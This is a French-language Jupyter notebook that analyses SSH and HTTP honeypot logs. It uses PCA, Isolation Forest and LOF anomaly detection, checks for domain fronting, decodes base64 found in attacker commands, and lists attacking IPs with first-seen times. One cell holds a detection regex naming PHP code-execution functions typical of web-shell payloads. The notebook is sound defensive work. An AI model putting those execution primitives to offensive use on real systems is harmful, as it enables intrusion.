Le tableau suivant (extrait du notebook) résume les 10 premières IP anomalies avec leurs scores Isolation Forest, LOF, nombre de commandes et proportion d’activité nocturne.


=== Extraction des features SSH avancées ===
Tokenisation des commandes par IP...
150 tokens retenus
Calcul des features volumétriques...
Calcul des features temporelles...

=== Construction de la matrice de features ===
Matrice features : 643 x 158

=== Exécution PCA ===
Composantes expliquées : [0.80808225 0.17268888]
Variance cumulée : 0.9808

=== Détection Isolation Forest (advanced) ===
Détection LOF (densités locales)...
IF anomalies : 52 (8.1%)
LOF anomalies : 52 (8.1%)
Consensus (IF ∩ LOF) : 15 (2.3%)

=== Top 10 anomalies (consensus IF+LOF) ===
  92.118.39.71: iso=-0.555, lof=-321.887, cmds=105.0, night=0%
  34.73.231.113: iso=-0.655, lof=-137.152, cmds=22.0, night=100%
  91.92.42.10: iso=-0.835, lof=-24.822, cmds=2859.0, night=0%
  1.162.231.16: iso=-0.576, lof=-18.420, cmds=75.0, night=0%
  34.11.64.194: iso=-0.531, lof=-15.297, cmds=6.0, night=0%
  176.65.139.250: iso=-0.800, lof=-14.141, cmds=2496.0, night=12%
  34.138.140.242: iso=-0.588, lof=-13.117, cmds=10.0, night=100



** Scree plot **





=== Résumé ===
Points PCA : 643
Variance PC1+PC2 : 98.08%
Anomalies consensus : 15/643 (2.3%)


In [93]:
# ========================================
# ACP Mots-clés SSH + Features Avancées + Isolation Forest + LOF
# ========================================
from collections import Counter
import numpy as np
from sklearn.decomposition import PCA
from sklearn.ensemble import IsolationForest
from sklearn.neighbors import LocalOutlierFactor
from sklearn.preprocessing import StandardScaler

print('=== Extraction des features SSH avancées ===')

# --- Feature 1: Token Frequency (mots-clés de commandes) ---
print('Tokenisation des commandes par IP...')
tokens_by_ip = {}
for row in dfssh.iter_rows(named=True):
    ip = row['SourceIp']
    cmd = row.get('Command') or ''
    tokens = Counter(cmd.split())
    if ip not in tokens_by_ip:
        tokens_by_ip[ip] = Counter()
    tokens_by_ip[ip] += tokens

token_freq = Counter()
for c in tokens_by_ip.values():
    token_freq.update(c)

STOPWORDS = set(['the', 'a', 'an', 'to', 'of', 'and', 'or', 'in', 'on',
                 'for', 'from', 'by', 'is', 'it', 'be', 'this', 'that',
                 'with', 'at', 'as', 'not'])
filtered_tokens = [
    token for token, count in token_freq.most_common()
    if 3 < count < len(dfssh) * 0.5 and token not in STOPWORDS
][:150]
print(f'{len(filtered_tokens)} tokens retenus')

# --- Feature 2: Volume (nb commandes, nb IPs, bytes) ---
print('Calcul des features volumétriques...')
# Utilisation de group_by Polars pour optimiser
ip_stats = {}
for row in dfssh.iter_rows(named=True):
    ip = row['SourceIp']
    if ip not in ip_stats:
        ip_stats[ip] = {'cmd_count': 0, 'bytes_sum': 0, 'commands': set(), 'timestamps': []}
    ip_stats[ip]['cmd_count'] += 1
    # Safety: check if Bytes column exists
    if 'Bytes' in dfssh.columns:
        ip_stats[ip]['bytes_sum'] += row.get('Bytes', 0) or 0
    ip_stats[ip]['commands'].add(row.get('Command', ''))
    ip_stats[ip]['timestamps'].append(row.get('DateTime', ''))

# --- Feature 3: Temporelles (heure moyenne, activité nocturne) ---
print('Calcul des features temporelles...')
for ip, stats in ip_stats.items():
    hours = []
    for ts in stats['timestamps']:
        if ts and 'T' in ts:
            try:
                hour = int(ts.split('T')[1].split(':')[0])
                hours.append(hour)
            except:
                pass
    if hours:
        stats['hour_avg'] = np.mean(hours)
        stats['hour_std'] = np.std(hours) if len(hours) > 1 else 0
        stats['night_activity'] = sum(1 for h in hours if h < 6 or h > 22) / len(hours)
    else:
        stats['hour_avg'] = 12
        stats['hour_std'] = 0
        stats['night_activity'] = 0

# --- Feature 4: Diversité (commandes uniques, ratio) ---
for ip, stats in ip_stats.items():
    stats['unique_cmds'] = len(stats['commands'])
    stats['cmd_diversity'] = stats['unique_cmds'] / stats['cmd_count'] if stats['cmd_count'] > 0 else 0

# Construire matrice de features
print('\n=== Construction de la matrice de features ===')
records = []
for ip, stats in ip_stats.items():
    record = {'SourceIp': ip}
    # Token frequency
    for t in filtered_tokens:
        record[t] = tokens_by_ip.get(ip, Counter()).get(t, 0)
    # Volume
    record['cmd_count'] = stats['cmd_count']
    record['bytes_sum'] = stats['bytes_sum']
    record['unique_cmds'] = stats['unique_cmds']
    record['cmd_diversity'] = stats['cmd_diversity']
    # Temporel
    record['hour_avg'] = stats['hour_avg']
    record['hour_std'] = stats['hour_std']
    record['night_activity'] = stats['night_activity']
    records.append(record)

all_features = pl.from_records(records)

# Cast Float64
all_features = all_features.with_columns([
    pl.col(t).cast(pl.Float64) for t in filtered_tokens + ['cmd_count', 'bytes_sum', 'unique_cmds', 'cmd_diversity', 'hour_avg', 'hour_std', 'night_activity']
])
print(f'Matrice features : {all_features.shape[0]} x {all_features.shape[1]}')

# ===== PCA =====
print('\n=== Exécution PCA ===')
X = all_features.drop('SourceIp').to_numpy()
pca_advanced = PCA(n_components=2)  # Renommé pour éviter conflit avec pca de base
X_pca = pca_advanced.fit_transform(X)
print(f'Composantes expliquées : {pca_advanced.explained_variance_ratio_}')
print(f'Variance cumulée : {pca_advanced.explained_variance_ratio_.sum():.4f}')

# ===== Isolation Forest (version avancée) =====
print('\n=== Détection Isolation Forest (advanced) ===')
scaler = StandardScaler()
X_scaled = scaler.fit_transform(X)

# IF avec contamination adaptée
iso = IsolationForest(
    n_estimators=200,
    max_samples='auto',
    contamination=0.08,  # ~8% d'anomalies attendues
    max_features=0.8,
    bootstrap=True,
    random_state=42
)
iso_pred = iso.fit_predict(X_scaled)
iso_scores = iso.score_samples(X_scaled)

# ===== Local Outlier Factor =====
print('Détection LOF (densités locales)...')
lof = LocalOutlierFactor(
    n_neighbors=30,
    contamination=0.08,
    novelty=False,
    metric='euclidean'
)
lof_pred = lof.fit_predict(X_scaled)
lof_scores = lof.negative_outlier_factor_

# Consensus
anomaly_iso = pl.Series('anomaly_iso', (iso_pred == -1).astype(bool))
anomaly_lof = pl.Series('anomaly_lof', (lof_pred == -1).astype(bool))
consensus = anomaly_iso & anomaly_lof

# Build DataFrame
features_pca = pl.DataFrame({
    'SourceIp': all_features.get_column('SourceIp').to_list(),
    'PC1': X_pca[:, 0].tolist(),
    'PC2': X_pca[:, 1].tolist(),
    'iso_score': iso_scores.tolist(),
    'lof_score': lof_scores.tolist(),
    'anomaly_iso': anomaly_iso.to_list(),
    'anomaly_lof': anomaly_lof.to_list(),
    'consensus': consensus.to_list(),
})

# Add features back
for col in filtered_tokens + ['cmd_count', 'bytes_sum', 'unique_cmds', 'cmd_diversity', 'hour_avg', 'hour_std', 'night_activity']:
    features_pca = features_pca.with_columns(pl.Series(col, all_features.get_column(col).to_list()))

n_iso = anomaly_iso.sum()
n_lof = anomaly_lof.sum()
n_consensus = consensus.sum()
print(f'IF anomalies : {n_iso} ({n_iso/len(features_pca)*100:.1f}%)')
print(f'LOF anomalies : {n_lof} ({n_lof/len(features_pca)*100:.1f}%)')
print(f'Consensus (IF ∩ LOF) : {n_consensus} ({n_consensus/len(features_pca)*100:.1f}%)')

top_anoms = features_pca.filter(pl.col('consensus')).sort('lof_score').head(10)
print('\n=== Top 10 anomalies (consensus IF+LOF) ===')
for ip, iso_s, lof_s, cmd_c, night in zip(
    top_anoms.get_column('SourceIp'),
    top_anoms.get_column('iso_score'),
    top_anoms.get_column('lof_score'),
    top_anoms.get_column('cmd_count'),
    top_anoms.get_column('night_activity'),
):
    print(f"  {ip}: iso={iso_s:.3f}, lof={lof_s:.3f}, cmds={cmd_c}, night={night:.0%}")

# ===== Visualisation =====
print('\n=== Graphique PCA + Anomalies ===')
fig, axes = plt.subplots(1, 2, figsize=(20, 8))

# Left : score IF
axes[0].scatter(
    features_pca.get_column('PC1').to_list(),
    features_pca.get_column('PC2').to_list(),
    c=features_pca.get_column('iso_score').to_list(),
    cmap='RdYlGn_r', alpha=0.6, s=40,
)
axes[0].set_xlabel(f'PC1 ({pca_advanced.explained_variance_ratio_[0]:.1%})')
axes[0].set_ylabel(f'PC2 ({pca_advanced.explained_variance_ratio_[1]:.1%})')
axes[0].set_title('PCA Features SSH — Score Isolation Forest', fontweight='bold')

# Right : consensus
normal_mask = ~features_pca.get_column('consensus')
axes[1].scatter(
    features_pca.filter(normal_mask).get_column('PC1').to_list(),
    features_pca.filter(normal_mask).get_column('PC2').to_list(),
    c='lightblue', alpha=0.4, s=30, label='Normal',
)
anom_df = features_pca.filter(features_pca.get_column('consensus'))
axes[1].scatter(
    anom_df.get_column('PC1').to_list(),
    anom_df.get_column('PC2').to_list(),
    c='red', s=100, marker='X', label='Anomalie (IF ∩ LOF)',
)
for ip_col, pc1_col, pc2_col in zip(
    anom_df.sort('lof_score').head(10).get_column('SourceIp'),
    anom_df.sort('lof_score').head(10).get_column('PC1'),
    anom_df.sort('lof_score').head(10).get_column('PC2'),
):
    axes[1].annotate(
        ip_col[:12],
        (pc1_col, pc2_col),
        fontsize=7, color='darkred', fontweight='bold',
        xytext=(5, 5), textcoords='offset points',
    )
axes[1].set_xlabel(f'PC1 ({pca_advanced.explained_variance_ratio_[0]:.1%})')
axes[1].set_ylabel(f'PC2 ({pca_advanced.explained_variance_ratio_[1]:.1%})')
axes[1].set_title('PCA Features SSH — Consensus IF + LOF', fontweight='bold')
axes[1].legend(loc='upper right')
axes[1].grid(True, alpha=0.3)
plt.tight_layout()
show_plot(fig, 'ACP Features SSH + Anomalies IF/LOF')

# ===== Scree plot =====
fig2, axes2 = plt.subplots(1, 2, figsize=(16, 6))
ev = pca_advanced.explained_variance_ratio_
x = range(1, len(ev) + 1)
axes2[0].bar(x, ev, alpha=0.7, color='steelblue', edgecolor='black')
axes2[0].plot(x, ev, 'o-', color='red', linewidth=2, markersize=8)
axes2[0].set_xlabel('Composante principale')
axes2[0].set_ylabel('Variance expliquée')
axes2[0].set_title('Scree plot', fontweight='bold')
axes2[0].set_xticks(x)
for i, v in enumerate(ev):
    axes2[0].text(i+1, v+0.005, f'{v:.1%}', ha='center', fontweight='bold')

cumul = np.cumsum(ev)
axes2[1].bar(x, ev, alpha=0.5, color='steelblue', edgecolor='black')
axes2[1].plot(x, cumul, 's-', color='red', linewidth=2, markersize=8, label='Cumulative')
axes2[1].axhline(y=0.8, color='green', linestyle='--', alpha=0.5, label='80%')
axes2[1].axhline(y=0.95, color='orange', linestyle='--', alpha=0.5, label='95%')
axes2[1].set_xlabel('Composante principale')
axes2[1].set_ylabel('Variance expliquée cumulative')
axes2[1].set_title('Scree plot cumulative', fontweight='bold')
axes2[1].set_xticks(x)
axes2[1].legend()
axes2[1].grid(True, alpha=0.3)
plt.tight_layout()
show_plot(fig2, 'Scree plot')

print('\n=== Résumé ===')
print(f'Points PCA : {features_pca.height}')
print(f'Variance PC1+PC2 : {ev.sum():.2%}')
print(f'Anomalies consensus : {n_consensus}/{features_pca.height} ({n_consensus/features_pca.height*100:.1f}%)')


In [94]:
# Detect DNS anomalies: TLS SNI vs Host header mismatch
dns_anomalies = []
if not dfhttp.is_empty():
    for row in dfhttp.iter_rows(named=True):
        tls = row.get("TLSServerName") or ""
        host = row.get("HostHTTPRequest") or ""
        if tls and host and tls != host:
            # Check if it's a domain fronting attempt
            if "." in tls and "." in host:
                dns_anomalies.append({
                    "type": "Domain Fronting",
                    "ip": row.get("SourceIp", "unknown"),
                    "tls": tls,
                    "host": host,
                })

# Detect suspicious TLS SNI (not matching any known domain pattern)
if not dfhttp.is_empty():
    for row in dfhttp.iter_rows(named=True):
        tls = row.get("TLSServerName") or ""
        if tls and any(c.isdigit() for c in tls) and "." not in tls:
            dns_anomalies.append({
                "type": "Anomalie IP DNS",
                "ip": row.get("SourceIp", "unknown"),
                "tls": tls,
                "host": "",
            })

# Deduplicate
seen = set()
unique = []
for a in dns_anomalies:
    key = (a["type"], a.get("tls", ""))
    if key not in seen:
        seen.add(key)
        unique.append(a)
dns_anomalies = unique

print(f"[INFO] {len(dns_anomalies)} anomalies DNS détectées")
print(f"[INFO] Types: {set(a['type'] for a in dns_anomalies)}")


[INFO] 0 anomalies DNS détectées
[INFO] Types: set()


In [95]:
# Graphique DNS anomalies
fig, axes = plt.subplots(1, 2, figsize=(14, 6))

if dns_anomalies:
    # Compter par type
    type_counts = {}
    for a in dns_anomalies:
        t = a["type"]
        type_counts[t] = type_counts.get(t, 0) + 1

    # Pie chart
    axes[0].pie(type_counts.values(), labels=type_counts.keys(), autopct='%1.1f%%',
                startangle=90, colors=['#e74c3c', '#3498db', '#27ae60'])
    axes[0].set_title('Répartition des anomalies DNS', fontsize=14, fontweight='bold')

    # Bar chart
    axes[1].bar(type_counts.keys(), type_counts.values(), color=['#e74c3c', '#3498db', '#27ae60'],
                edgecolor='black')
    axes[1].set_title('Nombre d\'anomalies par type', fontsize=14, fontweight='bold')
    axes[1].set_ylabel('Nombre d\'anomalies')
    axes[1].set_xlabel('Type')

    for i, (k, v) in enumerate(type_counts.items()):
        axes[1].text(i, v + max(type_counts.values()) * 0.02, str(v), ha='center', fontweight='bold')

    plt.tight_layout()
    show_plot(fig, "Graphique DNS anomalies")
else:
    pass


---## 9. Payloads HTTP (body analysis)

In [96]:
# Detect suspicious payloads in HTTP body
import re
PAYLOAD_PATTERN = re.compile(r"(eval|exec|system|passthru|shell_exec|popen|proc_open|assert)", re.IGNORECASE)
payloads = []
if not dfhttp.is_empty():
    for row in dfhttp.iter_rows(named=True):
        body = row.get("Body") or ""
        if PAYLOAD_PATTERN.search(body):
            payloads.append({
                "type": "PAYLOAD DETECTED",
                "SourceIp": row.get("SourceIp") or "",
                "Body": body[:200] + ("..." if len(body) > 200 else ""),
            })

print(f"[INFO] {len(payloads)} payloads détectés")


[INFO] 8 payloads détectés


---## 10. Base64 decoding

In [97]:
# ═══════════════════════════════════════════════
# Base64 decoding
# ═══════════════════════════════════════════════
def decode_b64_commands(df: pl.DataFrame, output_path: Path) -> list:
    """Decode base64 encoded commands from SSH traffic."""
    decoded_results = []
    for row in df.iter_rows(named=True):
        cmd = row.get("Command") or ""
        if not cmd:
            continue
        # Look for base64-like patterns (long alphanumeric strings)
        b64_pattern = re.compile(r'[A-Za-z0-9+/]{20,}={0,2}')
        matches = b64_pattern.findall(cmd)
        for match in matches:
            mod = len(match) % 4
            padded = match
            if mod == 2:
                padded = match + "=="
            elif mod == 3:
                padded = match + "="
            try:
                decoded_bytes = base64.b64decode(padded)
                decoded_str = decoded_bytes.decode("iso-8859-1", errors="replace")
                decoded_str = re.sub(r"[^\x20-\x7E\n\t]", ".", decoded_str)
                if len(decoded_str) > 10:
                    decoded_results.append({
                        "Command": cmd,
                        "count": row.get("count", 0),
                        "longueur": len(match),
                        "decoded": decoded_str,
                    })
            except Exception:
                continue
    output_path.parent.mkdir(parents=True, exist_ok=True)
    with open(output_path, "w") as f:
        json.dump(decoded_results, f, indent=2, ensure_ascii=False)
    print(f"[INFO] Payloads décodés sauvegardés : {output_path}")
    return decoded_results

decoded = decode_b64_commands(dfssh, JSONDIR / "decoded.json")

# Display decoded commands as DataFrame
if decoded:
    pl.DataFrame(decoded).head(20)
else:
    pass


[INFO] Payloads décodés sauvegardés : json/decoded.json


---## 11. HTTP-only attackers (probes sans SSH)

** Graphique HTTP-only attackers **




In [98]:
# Graphique HTTP-only attackers
ssh_ips = set(dfssh.get_column("SourceIp").to_list()) if not df_all.is_empty() else set()
http_ips = set(dfhttp.get_column("SourceIp").to_list()) if not df_all.is_empty() else set()
http_only_ips = http_ips - ssh_ips

fig, axes = plt.subplots(1, 2, figsize=(14, 5))

# Pie chart
labels = ['IPs SSH', 'IPs HTTP-only']
sizes = [len(ssh_ips), len(http_only_ips)]
colors = ['#3498db', '#e74c3c']

axes[0].pie(sizes, labels=labels, autopct='%1.1f%%', colors=colors, startangle=90)
axes[0].set_title('Répartition des IP sources', fontsize=14, fontweight='bold')

# Bar chart
axes[1].bar(labels, sizes, color=colors, edgecolor='black')
axes[1].set_title('Nombre d\'IPs par catégorie', fontsize=14, fontweight='bold')
axes[1].set_ylabel('Nombre d\'IPs')

for i, v in enumerate(sizes):
    axes[1].text(i, v + max(sizes) * 0.02, str(v), ha='center', fontweight='bold')

plt.tight_layout()
show_plot(fig, "Graphique HTTP-only attackers")

# Display HTTP-only IPs as DataFrame
if http_only_ips:
    pl.DataFrame({"SourceIp": sorted(http_only_ips)})
else:
    pass


---## 12. Timestamps premières attaques par IP

In [99]:
# First seen date per attacking IP
first_seen = (
    df_all
    .filter(pl.col("DateTime").is_not_null())
    .group_by("SourceIp")
    .agg(pl.col("DateTime").min().alias("first_seen"))
    .filter(pl.col("first_seen").is_not_null())
    .sort("first_seen")
) if not df_all.is_empty() else pl.DataFrame(
    schema={"SourceIp": str, "first_seen": str}
)

print(f'[INFO] {first_seen.height} IP attaquantes avec date de première apparition')
first_seen.head(15)


[INFO] 1274 IP attaquantes avec date de première apparition


SourceIp,first_seen
str,str
"""51.83.143.139""","""2026-05-30T04:04:15Z"""
"""185.246.128.133""","""2026-05-30T04:13:38Z"""
"""219.145.1.117""","""2026-05-30T04:49:58Z"""
"""80.94.95.118""","""2026-05-30T05:11:48Z"""
"""106.225.192.15""","""2026-05-30T05:44:20Z"""
…,…
"""194.88.98.119""","""2026-05-30T07:20:11Z"""
"""69.5.169.244""","""2026-05-30T07:20:11Z"""
"""104.248.161.154""","""2026-05-30T07:21:31Z"""




In [100]:
# Graphique 9: Top 15 premières apparitions par IP
if first_seen.height > 0:
    fig, ax = plt.subplots(figsize=(14, 8))

    top_first_seen = first_seen.head(15)

    # Convertir les timestamps en dates pour l'affichage
    dates = [datetime.strptime(ts, "%Y-%m-%dT%H:%M:%SZ") for ts in top_first_seen.get_column("first_seen").to_list()]

    ax.barh(range(len(top_first_seen)), [1] * len(top_first_seen), color='skyblue', edgecolor='black', height=0.6)
    ax.set_yticks(range(len(top_first_seen)))
    ax.set_yticklabels(top_first_seen.get_column("SourceIp").to_list(), fontsize=9)
    ax.set_xlim(min(dates), max(dates))
    ax.set_xticks(dates)
    ax.set_xticklabels([d.strftime("%Y-%m-%d") for d in dates], rotation=45, ha='right')
    ax.set_xlabel('Date de première apparition')
    ax.set_title('Top 15 Premières Apparitions par IP', fontsize=14, fontweight='bold')
    ax.invert_yaxis()

    plt.tight_layout()
    show_plot(fig)
else:
    pass


---## 13. Résumé complet de l'analyse

In [101]:
if password_analysis.height > 0:
    print(f"   - Le plus utilisé: {password_analysis.head(1).get_column('Password')[0]} ({password_analysis.head(1).get_column('count')[0]} occurrences)")

print(f"\n📡 Commandes de téléchargement:")
